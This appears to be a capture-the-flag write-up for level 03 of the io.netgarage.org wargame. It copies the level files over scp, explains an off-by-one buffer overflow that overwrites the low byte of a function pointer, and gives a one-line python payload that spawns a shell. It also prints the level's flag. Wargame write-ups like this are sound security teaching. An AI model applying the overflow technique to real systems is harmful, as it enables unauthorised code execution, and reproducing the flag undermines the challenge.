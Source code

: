 ### Level 03  
Let's get a copy of the stuff  
`scp -P 2264 level1@io.netgarage.org:/levels/level03* .` with password from previous level  
Looking through source, we've got a fencepost error on the for loop, allowing us to write 17 bytes into a 16 byte buffer. This 17th byte should over-write the LSB of the function pointer, allowing us to jump part way into f, where the win and shell are called.  
  
So, looking through ida free, I think the we need to change the byte to "\x6e".  
Let's give it a shot.  
`./level03 $(python -c 'print("AAAAAAAAAAAAAAAA"+"\x6e")')`  
`WIN!` and we have our shell.  
Flag is `raL6E8S0Y9BpioDK`  
